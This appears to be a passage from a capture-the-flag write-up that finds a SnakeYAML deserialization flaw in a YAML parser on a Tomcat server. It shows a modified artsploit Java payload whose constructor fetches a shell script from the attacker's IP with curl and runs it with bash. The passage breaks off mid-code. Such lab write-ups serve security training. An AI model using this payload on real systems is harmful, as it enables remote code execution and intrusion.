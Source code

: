 
And I found two services:
- *ssh*
- *webserver Apache Tomcat*

On port 8080 there is a YAML parser

<img src="./img/home.png"  width="650"/>


i have tried to insert some yaml and got the following error

<img src="./img/error.png"  width="650"/>


So i googled for `SnakeYAML` and i found the following [article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) that show a deserialization vulnerablity.

So i cloned the [repo](https://github.com/artsploit/yaml-payload) and edit the following [file](https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java#L12) on row 12-13
```java

package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl 10.10.14.85/shell.sh -O /tmp/t.sh");
            Runtime.getRuntime().exec("bash /tmp/t.sh");
```